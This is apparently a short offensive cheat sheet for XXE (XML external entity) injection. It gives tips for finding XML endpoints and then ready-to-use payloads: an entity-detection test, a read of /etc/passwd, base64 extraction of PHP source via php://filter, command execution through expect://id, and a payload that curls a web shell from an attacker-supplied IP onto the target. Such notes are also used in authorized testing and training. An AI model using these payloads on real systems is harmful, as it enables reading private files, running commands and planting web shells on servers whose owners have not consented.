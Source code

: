 # XXE

## Tips
- Check if there are requests sending XML to the backend, ideally where the backend doesn't sanitise
- Check if some fields from the xml are displayed on the page to inject into
- Check if changing the content-type to `application/xml` works ([json2xml](https://www.convertjson.com/json-to-xml.htm))

### Detection
Check if you can read a variable from a DDT definition
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe "vulnerable">
]>
&xxe;
```

### Basic file read
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

### Read PHP files
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### RCE
```xml
<!DOCTYPE email [
  <!ENTITY xxe SYSTEM "expect://id">
]>
```
#### Inject a webshell
```xml
<!DOCTYPE email [
  <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'<ip>/shelle.php'">
]>
```